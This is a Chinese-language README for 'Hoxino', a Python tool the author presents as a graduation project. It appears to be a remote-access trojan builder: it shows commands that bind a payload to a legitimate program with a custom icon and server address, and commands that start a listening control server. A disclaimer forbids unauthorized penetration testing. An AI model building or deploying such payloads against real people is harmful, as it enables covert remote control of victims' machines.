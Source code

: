 # Hoxino 项目

## 功能简介

Hoxino 是一款用于远程控制与负载管理的 Python 工具，支持构建与控制两大核心功能。

## 环境准备

- Python 3.6+
- 安装所需依赖：
  ```bash
  pip install -r requirements.txt
  ```
- 请按照本 `README.md` 中的说明自行搭建 Python 环境。

## 使用示例

### 1. 构建负载

```bash
python Hoxino.py build \
  -ip <服务端IP> \
  -p <服务端端口> \
  -i <程序图标> \
  -m <Application/程序本体.exe> \
  -n <负载名称.exe>
```

示例：
```bash
python Hoxino.py build -ip 192.168.1.10 -p 8080 -i icon.ico -m Application/app.exe -n payload.exe
```

### 2. 启动控制服务

```bash
python Hoxino.py control -ip 0.0.0.0 -p 8888
```

### 3. 在无头环境下运行

若在 Linux 无头（headless）环境下，可使用 `xvfb-run`：

```bash
xvfb-run -s "-screen 0 1024x768x24" python3 Hoxino.py control -ip 0.0.0.0 -p 8888
```

## 命令参考

更多可用指令及参数说明，请查阅项目根目录下的 `命令大全.txt` 并自行研究。

## 警告与法律声明

- 本项目涉及敏感操作，仅供技术研究与测试。
- 严禁未经他人允许进行渗透测试。多次强调：
  > 严禁未经他人允许进行渗透测试。
- 请务必在符合法律法规的前提下使用与测试。

## 毕业设计说明

该项目为作者的毕业设计，已上传至 Arch 平台。

---

> *提示：如需更多帮助，请根据项目结构及文档自行探索。*
